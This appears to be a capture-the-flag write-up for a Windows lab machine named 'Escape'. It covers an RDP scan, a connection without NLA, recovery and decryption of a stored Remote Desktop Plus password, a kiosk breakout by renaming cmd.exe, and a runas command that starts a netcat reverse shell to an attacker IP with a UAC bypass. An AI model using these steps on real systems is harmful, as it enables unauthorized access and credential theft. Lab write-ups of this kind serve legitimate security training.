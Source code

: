 ```yaml
---
title: "Escape"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



#no_right
Scan 
```sh
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: ESCAPE
|   NetBIOS_Domain_Name: ESCAPE
|   NetBIOS_Computer_Name: ESCAPE
|   DNS_Domain_Name: Escape
|   DNS_Computer_Name: Escape
|   Product_Version: 10.0.19041
|_  System_Time: 2024-07-27T14:01:13+00:00
| ssl-cert: Subject: commonName=Escape
| Not valid before: 2024-07-26T13:53:45
|_Not valid after:  2025-01-25T13:53:45
|_ssl-date: 2024-07-27T14:01:18+00:00; -3s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- Connect without credentials : 
```sh
xfreerdp /v:10.10.75.175 -sec-nla
```
- Via edge we can access to C:/ folder and grab a password : 
```xml
<!-- Remote Desktop Plus -->

<Data>

<Profile>

<ProfileName>admin</ProfileName>

<UserName>127.0.0.1</UserName>

<Password>JWqkl6IDfQxXXmiHIKIP8ca0G9XxnWQZgvtPgON2vWc=</Password>

<Secure>False</Secure>

</Profile>

</Data>
```
- Tool : 
https://gist.github.com/Yeeb1/df3ce82d56ccf4e0c72160d6b87d4d66

- Decrypt : 
```sh
python3 exploit.py --profiles profil.xml
Profile: admin, Username: 127.0.0.1, Password: Twisting3021
```

User VL{e2b03f2ac66ea91fabdce8fc1c109edb}

- Then we download the cmd from system32 , to bypass the security and exec cmd we change his nameto  msedge with F2 because we can't right click .

- Then we download netcat and runascs and exec this command : 
```sh
runas.exe admin Twisting3021 "cmd /c C:\Users\kioskUser0\Downloads\nc.exe 10.8.3.12 4242 -e cmd" --bypass-uac
```

Root VL{d0cf69050fa24e0321c46569a77df9c4}
